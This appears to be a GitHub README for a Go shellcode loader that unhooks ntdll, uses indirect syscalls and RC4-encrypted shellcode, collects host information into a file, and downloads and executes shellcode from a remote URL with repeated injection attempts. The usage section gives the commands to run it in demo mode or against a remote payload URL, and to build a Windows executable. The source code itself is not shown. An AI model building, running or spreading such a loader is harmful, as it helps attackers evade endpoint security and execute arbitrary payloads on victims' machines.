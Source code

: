 # rc4 loader

a simple shellcode loader that uses rc4 encryption, indirect syscalls and some system pointer encoding for fun

## features

- unhooks ntdll
- gathers host information 
- rc4 encryption/decryption of shellcode
- demo mode with embedded messagebox shellcode
- download shellcode from remote url
- system pointer encoding/decoding (not used by loader but interesting to me so left it in)
- multiple injection attempts because either i suck or go sucks

## usage

```bash
# show help
go run cmd/main.go -help

# run demo mode (embedded messagebox)
go run cmd/main.go -demo

# download and execute shellcode from url
go run cmd/main.go -url <url>
```

## build

```bash
go build -o rc4loader.exe cmd/main.go
```

## requirements

- windows (uses native windows syscalls)
- go 1.19+

## output

- creates `info.txt` with host information
- displays encryption/decryption process
- shows injection attempts and results

## author

me 